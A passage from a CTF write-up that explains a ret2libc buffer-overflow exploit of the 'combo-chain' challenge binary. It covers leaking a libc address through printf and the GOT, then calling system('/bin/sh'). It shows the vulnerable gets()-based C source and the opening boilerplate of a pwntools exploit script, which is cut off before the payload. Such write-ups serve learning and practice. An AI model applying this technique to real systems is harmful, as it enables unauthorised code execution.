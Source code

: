 The challenge archive contained the following files.
```
combo-chain
combo-chain.c
```

### Solution

This challenge is the exact same as Storytime above, except we don't have access to the write() function, so we just use printf() instead to leak gets()'s libc address using it's GOT entry. We then use it to find the libc version, calculate the libc base address, then re-exploit the program and call system('/bin/sh') instead.

The one weird issue I ran into was that after overflowing the buffer, I had to jump to a 'nop; ret;' gadget before doing the actual exploit. I'm still unsure why that happened to be the case, but it did, so I guess that's just a note to take: If your exploit isn't working even though it should, you might just need a nop gadget after the overflow to align (?) something.

The code is shown below.
```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void vuln() {
  char dest[8];
  printf("Dude you hear about that new game called /bin/sh");
  printf("? Enter the right combo for some COMBO CARNAGE!: ");
  gets(dest);
}

int main() {
  setbuf(stdout, NULL);
  gid_t gid = getegid();
  setresgid(gid,gid,gid);
  vuln();
  return 0; 
}
```

My exploit is shown below. It's the exact same as the one above from Storytime so I will skip the explanation. I have started to use a template for my exploits from now on. You can find it [here](https://github.com/farazsth98/ctf-pwntools-skeleton).
```python
#!/usr/bin/env python2

from pwn import *
import sys

# ---------------- START OF BOILERPLATE ------------------- #

argv = sys.argv

DEBUG = False
BINARY = './combo-chain'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

if context.bits == 64:
  r = process(['ROPgadget', '--binary', BINARY])
  gadgets = r.recvall().strip().split('\n')[2:-2]
  gadgets = map(lambda x: x.split(' : '),gadgets)
  gadgets = map(lambda x: (int(x[0],16),x[1]),gadgets)
  r.close()

```